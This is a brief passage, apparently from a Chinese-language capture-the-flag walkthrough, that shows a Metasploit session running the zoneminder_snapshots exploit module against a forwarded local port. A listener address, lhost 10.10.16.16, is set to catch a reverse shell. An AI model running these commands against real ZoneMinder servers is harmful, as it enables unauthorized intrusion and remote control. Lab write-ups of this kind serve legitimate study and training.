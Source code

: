 ![image-20231224231329667](../图片/image-20231224231329667.png)

这里我们使用的是metasploit

```
msfconsole 
use exploit/unix/webapp/zoneminder_snapshots 
show options 
set rhosts 127.0.0.1
set rport 8080
set targeturi /index.php/
set lhost 10.10.16.16
exploit
```

![image-20231224213326387](../图片/image-20231224213326387.png)
